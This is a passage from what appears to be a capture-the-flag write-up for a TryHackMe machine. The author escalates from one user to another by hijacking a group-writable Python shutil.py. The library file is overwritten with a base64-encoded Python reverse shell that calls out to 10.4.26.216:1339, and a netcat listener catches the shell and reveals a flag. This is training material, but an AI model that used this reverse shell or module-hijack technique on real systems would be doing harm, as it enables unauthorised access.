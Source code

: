 ## 3rd
```
death@dreaming:/home/morpheus$ cat restore.py                 cat restore.py
cat restore.py
from shutil import copy2 as backup

src_file = "/home/morpheus/kingdom"
dst_file = "/kingdom_backup/kingdom"

backup(src_file, dst_file)
print("The kingdom backup has been done!")
death@dreaming:/home/morpheus$ 
```
found this python file on morpheus home directory
i will search for shutil on the linuxs
```
death@dreaming:/home/morpheus$ find /  -name shutil.py -ls 2>/find /  -name shutil.py -ls 2>/dev/null
find /  -name shutil.py -ls 2>/dev/null
   263928     52 -rw-rw-r--   1 root     death       51474 Aug  7 23:52 /usr/lib/python3.8/shutil.py
     4867     51 -rw-r--r--   1 root     root        51474 May 26  2023 /snap/core20/1974/usr/lib/python3.8/shutil.py
     4861     51 -rw-r--r--   1 root     root        51474 May 26  2023 /snap/core20/2015/usr/lib/python3.8/shutil.py
death@dreaming:/home/morpheus$ 
```
we see that in the first file, The user death is in group, so we can write into the file.
```
import os,pty,socket;s=socket.socket();s.connect(("10.4.26.216",1339));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("sh")
```
Into base64, the write in the file
```
echo aW1wb3J0IG9zLHB0eSxzb2NrZXQ7cz1zb2NrZXQuc29ja2V0KCk7cy5jb25uZWN0KCgiMTAuNC4yNi4yMTYiLDEzMzkpKTtbb3MuZHVwMihzLmZpbGVubygpLGYpZm9yIGYgaW4oMCwxLDIpXTtwdHkuc3Bhd24oInNoIik= | base64 -d > /usr/lib/python3.8/shutil.py


└─$ sudo rlwrap nc -lvnp 1339
[sudo] password for bloman: 
listening on [any] 1339 ...
connect to [10.4.26.216] from (UNKNOWN) [10.10.216.211] 54478
$ $ id
id
uid=1002(morpheus) gid=1002(morpheus) groups=1002(morpheus),1003(saviors)
$ whoami
whoami
morpheus
$ 
THM{DR34MS_5H4P3_TH3_W0RLD}

```

